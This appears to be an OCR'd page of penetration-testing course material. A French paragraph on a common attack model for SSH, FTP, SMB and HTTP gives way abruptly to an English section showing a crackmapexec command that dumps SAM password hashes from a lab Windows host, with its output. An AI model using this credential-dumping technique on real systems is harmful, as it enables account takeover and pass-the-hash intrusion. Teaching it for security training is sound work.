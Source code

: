 Pour expliquer plus clairement ce dont nous parlons ici, nous pouvons essayer de regrouper les services SSH, FTP, SMB et HTTP et essayer de déterminer ce que ces services ont en commun. Ensuite, nous devons créer une structure qui nous permettra d'identifier les points d'attaque de ces différents services en utilisant un seul modèle.

L'analyse des points communs et la création de modèles de motifs qui s'appliquent à tous les cas envisageables ne constitue pas un produit fini, mais plutôt un processus qui permet à ces modèles de se développer de plus en plus. C'est pourquoi nous avons créé un modèle de motif pour ce sujet afin de vous aider à enseigner et expliquer plus efficacement le concept derrière les attaques.


## Extract Hashes from SAM Database

The Security Account Manager (SAM) is a database file that stores users' passwords. It can
be used to authenticate local and remote users. If we get administrative privileges on a
machine, we can extract the SAM database hashes for different purposes:
Authenticate as another user.
Password Cracking, if we manage to crack the password, we can try to reuse the
password for other services or accounts.

Pass The Hash. We will discuss it later in this section.
```bash
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
SMB
10.10.110.17 445
WIN7BOX
[*] Windows 10.0 Build 18362
(name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB
10.10.110.17 445
WIN7BOX
[+]
WIN7BOX\administrator:Password123! (Pwn3d!)
SMB
10.10.110.17 445
WIN7BOX [+] Dumping SAM hashes
SMB
10.10.110.17 445
WIN7BOX
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd
18041b8fe:::
SMB
10.10.110.17 445
WIN7BOX
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c
0:::
SMB
10.10.110.17 445
WIN7BOX
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59
d7e0c089c0:::
SMB
10.10.110.17 445
WIN7BOX
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5717e1619e16b9179e
f2e7138c749d65:::SMB
10.10.110.17 445
WIN7BOX
jurena:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae
634:::
SMB
10.10.110.17 445
WIN7BOX
demouser:1002:aad3b435b51404eeaad3b435b51404ee:4c090b2a4a9a78b43510ceec3a6
0f90b:::
```